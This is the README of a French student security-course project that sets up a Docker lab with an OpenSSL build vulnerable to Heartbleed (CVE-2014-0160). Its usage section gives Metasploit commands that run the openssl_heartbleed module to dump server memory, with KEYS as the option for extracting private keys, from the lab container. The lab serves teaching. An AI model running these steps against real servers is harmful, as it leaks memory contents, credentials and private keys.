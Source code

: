 # Introduction à la sécurité des systèmes d'informations

## Equipe

* Guillaume MALLET
* Tom RUSSELLO
* Vincent TAVERNIER

## Faille choisie

CVE-2014-0160 : OpenSSL Heartbeat extension implementation, dite *Heartbleed*.

Versions vulnérables : OpenSSL 1.0.1 through 1.0.1f (inclusive) are vulnerable
(http://heartbleed.com/).

## Références

* http://heartbleed.com/
* https://xkcd.com/1354/

## Usage

```bash
# Build the image
sudo docker build -t cysec-heartbleed .

# Run a container from the built image
sudo docker run --name cysec-heartbleed -it cysec-heartbleed

# Find out the IP address of the container
docker network inspect bridge

# Installations des paquets nécessaires pour metasploit (exemple sous Debian)
sudo apt-get install git-core postgresql curl ruby-dev nmap gem
gem install wirble sqlite3 bundler
git clone https://github.com/rapid7/metasploit-framework.git
cd metasploit*
bundle install



# Run metasploit
./msfconsole
use auxiliary/scanner/ssl/openssl_heartbleed
set ACTION DUMP      # Just dump data. Use KEYS if you want to try dumping the keys
set RHOSTS 172.17.0.2 # IP address from the network inspect command
set RPORT 443        # Change if you use a different port in the container
run
```
